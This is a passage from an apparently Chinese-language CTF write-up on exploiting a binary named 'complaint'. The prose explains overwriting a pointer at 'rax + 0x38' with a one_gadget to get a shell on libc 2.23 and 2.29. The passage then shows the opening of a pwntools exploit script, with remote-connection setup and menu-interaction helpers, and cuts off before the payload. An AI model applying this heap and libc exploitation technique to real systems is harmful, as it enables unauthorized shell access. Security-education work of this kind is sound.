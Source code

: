 这里的`rax + 0x38`是可以覆盖到的，向其中布置`one_gadget`即可

> 由于不同`libc`版本的`puts`函数具体代码不同，但是大同小异
> 我本地环境是`libc_2.29`，这题远程的环境是`libc_2.23`，都可以用上述方法成功getshell

exp如下(调试`libc_2.23`时需要`Ubuntu16.04`环境~真香)：

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './complaint'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc-2.23.so'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

# context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def mod(index, cont):
    sla('Your choice: ','2')
    sla('The complaint index you want to modify:\n',str(index))
    sla('Input your complaint:',cont)

def show(index):
    sla('Your choice: ','4')
    sla('The complaint index you want to show:\n',str(index))
    
# elf, libc

```